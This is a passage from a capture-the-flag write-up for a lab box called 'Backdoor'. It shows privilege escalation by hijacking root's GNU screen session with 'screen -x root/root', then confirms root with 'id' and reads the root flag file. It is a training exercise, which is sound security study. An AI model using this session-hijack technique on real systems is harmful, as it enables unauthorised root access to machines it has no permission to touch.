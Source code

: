 ```bash
-X            Execute <cmd> as a screen command in the specified session.

```
- So as there were no exploits available on the internet we have to play with the flags 
- I tried to exploit with help of GTFO bins and some flags around here 
- So we can get root shell with the `-x` flag  : `-x UserYouWannaHijackSession / HisSessionName`  

#### root

```bash
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root

root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# cat /root/root.txt
<--SNIPPED-->
```
- If you didn't get the shell or some error like `Please set a terminal type.` use this command `export TERM=xterm`

#### Box pwned 
![image](https://user-images.githubusercontent.com/56447720/143611602-d17a27c8-6c0c-4321-a196-aacaf50c8a97.png)
